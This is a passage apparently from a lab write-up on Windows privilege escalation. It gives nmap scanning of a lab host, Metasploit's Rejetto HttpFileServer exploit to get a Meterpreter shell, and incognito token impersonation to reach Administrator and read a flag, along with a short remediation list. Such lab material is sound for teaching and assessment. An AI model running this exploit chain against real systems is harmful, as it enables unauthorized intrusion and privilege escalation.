 ```markdown
1. Update HttpFileServer to latest secure version
2. Implement principle of least privilege for service accounts
3. Enable advanced token isolation features
4. Monitor for unusual authentication activities
5. Regular security assessments and penetration testing
```

### **Detailed Technical Report Template:**
```markdown
## Comprehensive Token Impersonation Analysis

### Methodology Overview:
This assessment utilized a systematic approach to Windows privilege escalation through token impersonation, following industry-standard penetration testing methodologies.

### Attack Vector Analysis:

**Phase 1: Reconnaissance and Discovery**
```bash
# Network enumeration
nmap demo.ine.local
# Results: Multiple Windows services identified

# Service fingerprinting  
nmap -sV -p 80 demo.ine.local
# Results: HttpFileServer httpd 2.3 detected
```

**Phase 2: Initial Exploitation**
```bash
# Vulnerability exploitation
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS demo.ine.local
exploit
# Results: Meterpreter session established as LOCAL SERVICE
```

**Phase 3: Privilege Escalation**
```bash
# Token-based privilege escalation
load incognito
list_tokens -u
impersonate_token ATTACKDEFENSE\\Administrator
getuid
# Results: Escalation to Administrator successful
```

**Phase 4: Post-Exploitation Validation**
```bash
# Objective completion
cat C:\\Users\\Administrator\\Desktop\\flag.txt
# Results: x28c832a39730b7d46d6c38f1ea18e12
```
